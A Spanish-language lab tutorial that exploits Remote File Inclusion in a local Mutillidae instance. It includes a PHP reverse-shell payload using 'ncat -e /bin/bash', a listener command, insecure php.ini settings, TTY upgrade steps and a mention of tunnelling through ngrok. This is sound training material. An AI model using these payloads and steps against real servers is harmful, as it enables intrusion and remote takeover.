









# Explotando RFI (Remote File Inclusion)



La vulnerabilidad **RFI** ocurre cuando una aplicación permite incluir archivos alojados en servidores remotos como parámetros de funciones de inclusión de PHP.

## ¿Qué es RFI?

A diferencia de LFI, el atacante puede hacer que el servidor víctima ejecute un script alojado en un servidor externo controlado por el atacante.

La inclusión remota de archivos de produce cuando el URI de un archivo ubicado en un servidor diferente se pasa como parámetro a las funciónes de PHP "include", "include_once", "require" o "require_once". A lo cuales PHP incorpora el contenido del archivo a la página y si el contenido del archivo es código php, PHP lo ejecutará.

Esto permite que un atacante incluya archivos remotos, lo que posiblemente permita la ejecución de código, la denegación de servicio y la divulgación de datos.

Dado que la vulnerabilidad RFI ocurre cuando las rutas que se pasan a las declaraciones "include" no se desinfectan adecuadamente se puede usar un URI para especificar un archivo remoto albergado en otro servidor ejecutando código arbitrariamente obteniendo el control del servidor. Esto, tomando en cuenta que el parámetro "page" este presente en la URL de la página :
```
http://127.0.0.1:4546/index.php?page=arbitrary-file-inclusion.php
```

## Preparación del Entorno



En el HowTo "entorno_de_pruebas_hacking" aprendimos a montar nuestro servidor web con diversas plataformas y para esta práctica vamos a usar la plataforma MUTILLIDAE.

1. Iniciemos nuestra base de datos mysql
```
mysqld
```
2. Iniciemos nuestro servidor php con mutillidae.
```
php -S 127.0.0.1:4546 -t $PREFIX/var/service/www/php/mutillidae 
```
3. Llamemos a nuestro editor de textos (vim,nano,emacs,etc) de tu preferencia con el archivo de configuración de PHP [php.ini] ubicado en bajo la ruta $PREFIX/lib para que nuestro servidor sea vulnerable a RFI añadiendo las siguientes líneas:
    ```text 
    allow_url_fopen = on 
    allow_url_include = on
    ```
Listo❕, ya tenemos nuestro entorno de pruebas, ahora,  vamos atacarlo‼️

## Vulnerando el sitio web.



1. Ingresemos al sitio web directamente desde el navegador o bien desde Termux
```
termux-open-url http://127.0.0.1:4546
```
2. Desde la página principal ingresa a :

• OWASP 2017
• A5- Control de acceso roto
• Referencias de objetos directos inseguros
• Inclusión de archivos remotos.

⚠️NOTA: podrás darte cuenta que en la URL de búsqueda se presenta el parámetro "page":
```
http://127.0.0.1:4546/index.php?page=arbitrary-file-inclusion.php
```



3. Copiamos la liga de la barra de direcciones y hagamos una peticion para un análisis más detallado desde Termux con :
```
curl -sf --head http://127.0.0.1:4546/index.php?page=arbitrary-file-inclusion.php
```
Con ello vemos que se trata de una solicitud GET por lo tanto los parámetros se pueden modificar a través de curl o directamente desde la URL en el navegador. Así que vamos a probar si es vulnerable o no a RFI.

4. Montemos un nuevo servidor web PHP que fungirá como el atacante :



```
php -S 127.0.0.1:8080 -t $PREFIX/var/service/www/php
```
5. Probemos la web asignando al parámetro "page" de la URL el link de nuestro servidor hacia un archivo inexistente, por ejemplo "file.php" :
```
http://127.0.0.1:4546/index.php?page=http://127.0.0.1:8080/file.php
```
BINGO❕... nos arrojo un resultado "error_404" lo cual indica que el servidor ejecuto con éxito nuestra URI, eso quiere decir que podemos pasarle cualquier parámetro en php y este sera ejecutado.

6. Vamos a crear nuestro archivo malicioso con la ejecución del llamado a una shell reverse directo a nuestro dispositivo atacante, el cual llamare rev.txt y guardemoslo en la ruta de nuestro servidor atacante con el siguiente código en PHP:



```
<?php
echo shell_exec("ncat -e /bin/bash 127.0.0.1 1234");
?>
```
> **NOTA:** asigne .txt como extension del archivo ya que si esta es ".php" el archivo seria ejecutado en el servidor atacante y no en el servidor víctima.

7. Pongamos a la escucha a nuestro atacante con netcat(imagen) donde recibiremos la conexion reversa:
```
ncat -nvlp 1234
```
> **NOTA:** recuerden que el puerto entre el shell reverse y el handler deben de coincidir en un escenario LAN y en un escenario WAN debe coincidir el reverse con el tunel y el tunel con el handler :

> **LAN:**
    💻-->127.0.0.1-->1234🚪-->📱
> **WAN:**
    💻-->🚪54637-->🌐ngrok.io-->1234🚪-->📱

8. Vamos a ejecutar nuestro código malicioso(reverse shell) en el servidor víctima explotando RFI pasando al parámetro "page" el enlace de nuestro servidor atacante cargando nuestro archivo "rev.txt" y para esta práctica vamos a hacerlo de dos formas.

8.1 Desde el navegador web: donde sólo pondremos la liga del servidor victima asignando al parametro "page" nuestro URI malicio invocando asi el reverse desde nuestro rev.txt.



```
http://127.0.0.1:4546/index.php?page=http://127.0.0.1:8080/rev.txt
```

### IMAGEN:
1. se congela la carga del sitio por la conexion reversa
2. vemos el ejemplo de RFI


8.2 Desde Termux enviando una petición(requests) con CURL bajo las opciones "-s" (silence/silencio), "-f" (fail/fallo{omite mostrar errores en pantalla} y "--head" (encabezado{muestra el encabezado del requests}) :



```
curl -sf --head http://127.0.0.1:4546/index.php?page=http://127.0.0.1:8080/rev.txt
```

9. BINGO❕ ... Tenemos una conexión reversa en nuestro puerto oyente(handler) y para tener una mejor interacción invoquemos un TTY con python y así obtener un PROMPT de bash:



```
python -c 'import pty;pty.spawn(“/bin/bash”)'
```
Mucho mejor cierto❓

Recuerda‼️NO memorices aprende practicando, que la genialidad es igual a la repetición.
